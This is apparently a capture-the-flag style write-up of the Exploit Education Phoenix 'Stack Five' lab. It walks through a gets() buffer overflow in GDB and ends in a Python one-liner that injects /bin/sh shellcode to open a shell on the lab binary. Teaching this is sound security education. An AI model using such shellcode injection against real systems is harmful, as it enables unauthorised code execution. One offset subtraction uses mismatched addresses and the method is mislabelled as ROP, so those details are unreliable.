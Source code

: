 ```yaml
---
title: "Exploit Education Phoenix : Stack Five"
date: 2023-07-18T18:54:41+02:00
draft: true
tags: [Exploit Development, Reverse Engineering, Exploit Education]
summary: "Writeup on the sixth Phoenix challenge on the Exploit Education website. In this article, we will solve the Stack-Five challenge."
series: ["Exploit Education Phoenix"]
series_order: 6
---
```


{{< alert cardColor="#6a89cc" icon="circle-info" iconColor="white" textColor="white">}}
Before you look at the solution to the challenges, I invite you to try it for yourself. You can find all the challenges [here](https://exploit.education/phoenix/).
{{< /alert >}}

## Overview of the challenge

The aim of the Phoenix challenges is to analyse the source code of an executable in order to find and exploit a vulnerability. This first series of challenges concerns the stack. 

The first thing to do is to analyse the executable's source code. Looking for a vulnerability to exploit.

```c
char *gets(char *);

void start_level() {
  char buffer[128];
  gets(buffer);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

First of all, we notice that unlike the other challenges, this one no longer has a structure. What's more, the `complete_level` function that we need to call to complete the challenge is no longer present. As with the previous challenge, the aim of this challenge is to introduce us to the stack overflow technique: [return-oriented programming](https://en.wikipedia.org/wiki/Return-oriented_programming) (ROP). However, this time instead of executing the `complete_level` function we have to execute shellcode to open a shell.

The next thing we notice is the use of the `gets` function. When we look at the documentation for the function using the command: `man gets`, it explains how the function works. The `gets` function retrieves a string of characters from the standard input (`stdin`), each character is written to a buffer until the function detects an `EOF` or a line feed. Finally, when one of these characters is detected, it is replaced by a `\0` to end the string.

The documentation provides us with new information: this function should no longer be used, as it is sensitive to buffer overflow attacks. The function does not know how many characters it will write to the buffer and cannot be used to limit the number of characters copied. If the number of input characters is greater than the size of the buffer, the `gets` function will continue to write to the next memory location.

Now that we've identified the sensitive parts of the source code, all we have to do is abuse the vulnerability to succeed in the challenge.

## Exploiting the vulnerability

To succeed in this challenge, we need to exploit a buffer overflow vulnerability. This will allow us to change the value of the return address, which will allow us to execute shellcode to open a new shell. To exploit the ROP, we need several parameters that we will use when exploiting the buffer overflow:

* Address of buffer vulnerable to buffer overflow
* Address of the memory location containing the return address
* A x86_64 shellcode that allow us to open a new shell.

Using the buffer address and the memory location containing the return address, we can calculate an offset that will tell us how big our malicious character string should be. Next, we add the address of the start of the buffer to our string of characters in order to rewrite the value of the return address. The shellcode in the buffer will be executed and open the shell.

To find all these parameters, we'll use `GDB`.

### Offset calculation

{{< alert cardColor="#e63946" iconColor="white" textColor="white">}}
GDB sometimes shifts stack addresses slightly because of environment variables. This can cause problems when testing a vulnerability outside GDB.
To fix this you need to remove excess environment variables, you can use the `show env` command to show environment variables and `unset env <var_name>` to remove an environment variable. In my case. I had to remove the variables `LINES` and `COLUMNS`.
{{< /alert >}}

To find the address of the buffer, it is possible to fill the buffer and inspect the stack to find the address. To inspect the stack at the right time, we can place a breakpoint just after the `gets` function is called in the `start_level` function.

```console
$ gdb stack-five
$ disass start_level
$ b *0x00000000004005a1
$ run < <(python -c "print 'A'*100")
$ x/100x $rsp
```

![Breakpoint Hit](https://github.com/adamhlt/adamhlt.github.io/assets/48086737/568ef5f5-7fd6-4f88-92ac-a98648db16bf "Breakpoint hit to see the stack.")

![Stack Analysis](https://github.com/adamhlt/adamhlt.github.io/assets/48086737/1a3b97af-617e-4b3c-9218-b74e983eb0db "Analysis of the stack")


Thanks to the stack inspection, we now know the buffer address: `0x7FFFFFFFE5E0`. In the stack we can also find the address containing the return address. To do this, we disassemble the `main` function, which calls the `start_level` function. Then we retrieve the address of the instruction just after the `start_level` function is called, since this is the address to which the CPU will return after the `ret` instruction in the `start_level` function.

```console
$ gdb stack-five
$ disass main
```

![Disassembly main](https://github.com/adamhlt/adamhlt.github.io/assets/48086737/071dc082-bd6e-4b4c-876a-e28c82eb6c09 "Disassembly of the `main` function")

![Stack Analysis](https://github.com/adamhlt/adamhlt.github.io/assets/48086737/80677305-d3c4-4f86-8937-822bd0742b93 "Analysis of the stack")

We now know that the address of the memory location containing the return address is: `0x7FFFFFFFE668`, since the instruction address is `0x00000000004005c7` and we find this value in the stack.

We can now calculate the offset between the start of the buffer and the location of the return address: `0x7FFFFFFFE648 - 0x7FFFFFFFE5F0 = 0x88 = 136`.

### Constructing the malicious string

We now have all we need to exploit the vulnerability. We can create our malicious string by filling our buffer with a shellcode of 57 bytes that open a shell, then 79 `NOP` to reach the return address and finally adding the address of the buffer.

{{< alert cardColor="#6a89cc" icon="circle-info" iconColor="white" textColor="white">}}
I didn't create the shellcode myself, you can find it [here](https://www.voidsecurity.in/2013/08/stdin-reopen-execve-binsh-shellcode-for.html). So credit goes to them for this shellcode..
{{< /alert >}}

To make it easier to create the string, we can use Python.

```console 
python -c "print '\x48\x31\xc0\x50\x5f\xb0\x03\x0f\x05\x50\x48\xbf\x2f\x64\x65\x76\x2f\x74\x74\x79\x57\x54\x5f\x50\x5e\x66\xbe\x02\x27\xb0\x02\x0f\x05\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x50\x57\x54\x5e\x48\x99\xb0\x3b\x0f\x05' + '\x90'*79 + '\xE0\xE5\xFF\xFF\xFF\x7F'" | ./stack-five
```

![Exploit Result](https://github.com/adamhlt/adamhlt.github.io/assets/48086737/0354295e-54f8-4972-a22d-7694d5fdbbf2 "Result of exploiting the vulnerability.")


Finally, we can see that we've opened a new shell, so we've succeeded in our challenge.
